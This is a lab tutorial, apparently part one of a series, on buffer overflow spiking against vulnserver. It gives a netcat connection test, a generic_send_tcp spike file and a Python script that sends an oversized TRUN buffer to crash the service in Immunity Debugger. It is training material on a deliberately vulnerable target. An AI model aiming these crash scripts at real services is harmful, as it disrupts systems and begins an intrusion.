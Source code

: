 # Buffer Overflow Attack Guide - Part 1
## Initial Setup and Spiking

### Prerequisites
- Windows Target Machine (RDP access)
- Kali Linux VM
- Immunity Debugger on Windows
- Python installed on both machines
- vulnserver running on target

### 1. Initial Setup

#### On Windows Target (172.29.98.109)
1. Verify vulnserver is running:
   - Check Task Manager for `vulnserver.exe`
   - Default port is 9999

2. Start Immunity Debugger as Administrator
3. Attach to vulnserver process:
   - File -> Attach
   - Select vulnserver.exe
   - Click Play button to start debugging

#### On Kali VM
1. Test initial connection to vulnserver:
```bash
nc -nv 172.29.98.109 9999
```
You should see a welcome banner from vulnserver.

### 2. Spiking
Create a spike script to test TRUN command for vulnerability.

1. Create `trun.spk` file:
```bash
nano trun.spk
```

2. Add following content:
```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

3. Run generic_send_tcp:
```bash
generic_send_tcp 172.29.98.109 9999 trun.spk 0 0
```

Create initial Python script to test TRUN command (`trun_test.py`):

```python
#!/usr/bin/python3
import socket
import sys

host = "172.29.98.109"
port = 9999

# Create string of As
buffer = "A" * 100

# Build the payload
payload = "TRUN /.:/" + buffer

# Create socket
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    
    # Send evil buffer
    print("[*] Sending evil buffer...")
    s.send(bytes(payload, "latin-1"))
    print("[*] Done!")
    
    s.close()
    
except:
    print("[-] Could not connect!")
    sys.exit()
```

### Expected Results
- When running the spike script, observe Immunity Debugger
- If vulnerable, you'll see a crash with many 41s (hex for 'A')
- Note any error messages or crash conditions

### Verification
If successful, you should see:
1. Program crash in Immunity Debugger
2. EIP or other registers containing 41414141
3. Stack window filled with 'A's

### Next Steps
Once spiking confirms vulnerability:
1. Move to fuzzing phase
2. Determine exact crash point
3. Generate unique pattern for offset
